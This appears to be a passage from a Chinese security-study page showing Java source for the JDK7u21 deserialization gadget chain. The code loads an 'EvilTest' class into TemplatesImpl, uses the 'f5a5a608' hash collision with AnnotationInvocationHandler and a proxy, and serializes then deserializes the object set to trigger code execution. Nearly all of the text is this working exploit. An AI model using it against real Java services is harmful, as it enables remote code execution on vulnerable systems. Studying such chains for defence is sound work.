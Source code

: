 ```java
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "HelloTemplatesImpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        String zeroHashCodeStr = "f5a5a608";

        // 实例化一个map，并添加Magic Number为key，也就是f5a5a608，value先随便设置一个值
        HashMap map = new HashMap();
        map.put(zeroHashCodeStr, "1");

        // 实例化AnnotationInvocationHandler类
        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, map);

        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);

        // 实例化HashSet，并将两个对象放进去
        HashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);

        // 将恶意templates设置到map中
        map.put(zeroHashCodeStr, templates);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(set);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();

    }
}
```



# 思考
